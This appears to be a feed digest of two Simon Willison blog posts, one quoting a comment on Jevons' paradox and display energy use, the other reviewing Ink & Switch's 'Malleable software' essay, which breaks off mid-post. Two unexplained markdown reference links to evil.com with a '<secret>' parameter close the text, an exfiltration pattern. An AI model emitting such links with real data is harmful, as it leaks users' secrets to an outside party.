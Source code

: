 ## Quoting datarama

date: 2025-06-11, updated: 2025-06-11, from: Simon Willison’s Weblog

<blockquote cite="https://lobste.rs/s/btogou/llms_are_cheap#c_0o4e0e"><p>Since Jevons' original observation about coal-fired steam engines is a bit hard to relate to, my favourite modernized example for people who aren't software nerds is display technology.</p>
<p>Old CRT screens were <em>horribly</em> inefficient - they were large, clunky and absolutely guzzled power. Modern LCDs and OLEDs are slim, flat and use much less power, so that seems great ... except we're now using powered screens in a lot of contexts that would be unthinkable in the CRT era.</p>
<p>If I visit the local fast food joint, there's a row of large LCD monitors, most of which simply display static price lists and pictures of food. 20 years ago, those would have been paper posters or cardboard signage. The large ads in the urban scenery now are huge RGB LED displays (with whirring cooling fans); just 5 years ago they were large posters behind plexiglass. Bus stops have very large LCDs that display a route map and timetable which only changes twice a year - just two years ago, they were paper.</p>
<p>Our displays are much more power-efficient than they've ever been, but at the same time we're using <em>much</em> more power on displays than ever.</p></blockquote>
<p class="cite">&mdash; <a href="https://lobste.rs/s/btogou/llms_are_cheap#c_0o4e0e">datarama</a>, lobste.rs coment for "LLMs are cheap"</p>

    <p>Tags: <a href="https://simonwillison.net/tags/ai-energy-usage">ai-energy-usage</a></p> 

<br> 

<https://simonwillison.net/2025/Jun/11/datarama/#atom-everything>

---

## Malleable software

date: 2025-06-11, updated: 2025-06-11, from: Simon Willison’s Weblog

<p><strong><a href="https://www.inkandswitch.com/essay/malleable-software/">Malleable software</a></strong></p>
New, delightful manifesto from Ink &amp; Switch.</p>
<blockquote>
<p>In this essay, we envision malleable software: tools that users can reshape with minimal friction to suit their unique needs. Modification becomes routine, not exceptional. Adaptation happens at the point of use, not through engineering teams at distant corporations.</p>
</blockquote>
<p>This is a beautifully written essay. I love the early framing of a comparison with physical environments such as the workshop of a luthier:</p>
<blockquote>
<p>A guitar maker sets up their workshop with their saws, hammers, chisels and files arranged just so. They can also build new tools as needed to achieve the best result—a wooden block as a support, or a pair of pliers sanded down into the right shape. […] <strong>In the physical world, the act of crafting our environments comes naturally, because physical reality is malleable</strong>.</p>
</blockquote>
<p>Most software doesn’t have these qualities, or requires deep programming skills in order to make customizations. The authors propose “malleable software” as a new form of computing ecosystem to “give users agency as co-creators”.</p>
<p>They mention plugin systems as one potential path, but highlight their failings:</p>
<blockquote>
<p>However, <strong>plugin systems still can only edit an app's behavior in specific authorized ways.</strong> If there's not a plugin surface available for a given customization, the user is out of luck. (In fact, most applications have no plugin API at all, because it's hard work to design a good one!)</p>
<p>There are other problems too. Going from installing plugins to <em>making</em> one is a chasm that's hard to cross. And each app has its own distinct plugin system, making it typically impossible to share plugins across different apps.</p>
</blockquote>
<p>Does AI-assisted coding help? Yes, to a certain extent, but there are still barriers that we need to tear down:</p>

[ref]: https://www.evil.com?param=&lt;secret&gt;
[ref]: https://www.evil.com?param=&lt;secret&gt;